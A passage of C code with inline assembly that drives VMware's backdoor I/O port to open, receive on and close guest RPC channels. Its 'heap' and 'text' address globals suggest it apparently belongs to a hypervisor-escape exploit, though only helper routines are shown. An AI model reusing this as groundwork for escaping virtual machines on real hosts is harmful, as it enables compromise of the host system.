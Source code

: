 ```cpp=
        "movw $0x5658,%%dx\n\t"
        "in %%dx,%%eax\n\t"
        "add %%r11,%%rbp\n\t"
        "movl %%ebx,(%%rbp)\n\t"
        "movl %%ecx,(%%r10)\n\t"
        "popq %%rbp\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
       );
}

void channel_recv_finish(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
void channel_recv_finish2(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
void channel_close(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0006001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
struct channel{
    int cookie1;
    int cookie2;
    int num;
};
uint64_t heap =0;
uint64_t text =0;
void run_cmd(char *cmd){
    struct channel tmp;
    int res,len,i;
```